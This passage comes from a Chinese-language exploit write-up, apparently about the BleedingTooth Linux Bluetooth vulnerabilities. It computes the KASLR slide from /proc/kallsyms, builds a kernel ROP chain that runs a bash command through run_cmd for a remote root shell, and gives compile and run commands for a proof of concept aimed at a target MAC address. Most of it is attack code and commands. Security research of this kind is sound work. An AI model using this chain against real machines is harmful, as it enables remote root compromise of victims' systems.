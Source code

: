 为了确定两种方法的偏移量，我们可以简单地检查受害者机器上留存的符号:

```shell
$ sudo cat /proc/kallsyms | grep "run_cmd\|do_task_dead"
ffffffffab2ce470 t run_cmd
ffffffffab2dc260 T do_task_dead
```

这里，KASLR slide 的值是 0x2a200000 ，可以通过对 `_text`符号 进行 grep 并减去 0xffffffff81000000 来计算得到：

```shell
$ sudo cat /proc/kallsyms | grep "T _text"
ffffffffab200000 T _text

ab2ce470
2a200000
```

前两个地址的减去 slide 得到:

```c
#define RUN_CMD 0xffffffff810ce470
#define DO_TASK_DEAD 0xffffffff810dc260
```

最后，我们可以用 ROPgadge 找到 `pop rax ; ret`，`pop rdi ; ret` 和 `jmp rax` 等 gadgets，然后我们可以根据下面的例子来构造内核ROP链：

```c
static void build_krop_chain(uint64_t *rop, uint64_t cmd_addr) {
  *rop++ = kaslr_offset + POP_RAX_RET;
  *rop++ = kaslr_offset + RUN_CMD;
  *rop++ = kaslr_offset + POP_RDI_RET;
  *rop++ = cmd_addr;
  *rop++ = kaslr_offset + JMP_RAX;
  *rop++ = kaslr_offset + POP_RAX_RET;
  *rop++ = kaslr_offset + DO_TASK_DEAD;
  *rop++ = kaslr_offset + JMP_RAX;
}
```

这个 ROP 链应该放在伪结构 `bpf_prog`对象中的偏移量 0x40 处，而 `cmd_addr`应该指向放置在内核内存中的 bash 命令。一切准备就绪，最终我们可以从受害者那里获取到一个 root shell 。

# POC

获取 POC： https://github.com/google/security-research/tree/master/pocs/linux/bleedingtooth.

编译使用:

```c
$ gcc -o exploit exploit.c -lbluetooth
```

然后执行为:

```c
$ sudo ./exploit target_mac source_ip source_port
```
